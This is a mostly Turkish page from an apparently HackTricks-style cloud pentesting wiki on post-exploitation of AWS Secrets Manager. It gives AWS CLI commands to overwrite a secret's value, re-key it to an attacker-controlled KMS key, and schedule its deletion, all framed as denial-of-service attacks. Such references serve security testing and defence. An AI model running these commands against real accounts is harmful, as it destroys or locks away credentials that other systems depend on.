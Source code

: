 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Daha fazla bilgi için bakınız:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Read Secrets

The **secrets themself are sensitive information**, [check the privesc page](../aws-privilege-escalation/aws-secrets-manager-privesc.md) onları nasıl okuyacağınızı öğrenmek için.

### DoS Change Secret Value

secret'in değerini değiştirerek, **bu değere bağımlı tüm sistemleri DoS edebilirsiniz.**

> [!WARNING]
> Önceki değerlerin de saklandığını unutmayın; bu yüzden önceki değere geri dönmek kolaydır.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Eğer saldırganın secretsmanager:UpdateSecret izni varsa, secret'i saldırgana ait bir KMS key kullanacak şekilde yapılandırabilir. Bu anahtar başlangıçta herkesin erişip kullanabileceği şekilde ayarlanmıştır; bu nedenle secret'i yeni anahtar ile güncellemek mümkündür. Anahtar erişilebilir olmasaydı, secret güncellenemezdi.

Secret için anahtar değiştirildikten sonra, saldırgan kendi anahtarının yapılandırmasını yalnızca kendisinin erişebileceği şekilde değiştirir. Böylece secret'in sonraki sürümleri yeni anahtar ile şifrelenir ve anahtara erişim olmadığından secret'i elde etme yeteneği kaybolur.

Şunu belirtmek önemlidir ki bu erişilemezlik, secret içeriği değiştikten sonra oluşan sonraki sürümlerde meydana gelecektir; çünkü mevcut sürüm hâlen orijinal KMS key ile şifrelenmiştir.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Secret Silme

Bir secret'i silmek için gereken minimum gün sayısı 7'dir
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
{{#include ../../../banners/hacktricks-training.md}}

